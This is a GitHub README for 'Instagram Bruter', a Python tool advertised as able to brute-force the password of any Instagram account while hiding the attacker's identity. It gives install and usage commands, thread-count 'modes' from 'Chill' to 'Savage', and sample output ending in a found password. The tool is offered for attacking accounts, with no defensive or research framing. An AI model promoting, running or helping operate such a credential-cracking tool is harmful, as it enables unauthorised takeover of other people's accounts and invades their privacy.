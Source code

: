 # Instagram Bruter

[![Version](https://img.shields.io/badge/version-v2.1.1-blue.svg)]()
[![Python](https://img.shields.io/badge/python-v3-blue.svg)]()
[![Instagram](https://img.shields.io/badge/instagram.svg)](https://www.instagram.com/hackelite01)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.


### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\hackelite01\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\hackelie01\Desktop\Instagram>python3 instagram.py hackelite01 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\hackelite01\Desktop\Instagram>python3 instagram.py hackelite01 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\hackelite01\Desktop\Instagram>python3 instagram.py hackelite01 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\hackelite01\Desktop\Instagram>python3 instagram.py hackelite01 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: hackelite01
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: hackelite01
[-] Password: hackelite012
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: hackelite01
[+] Password: hackelite012
```
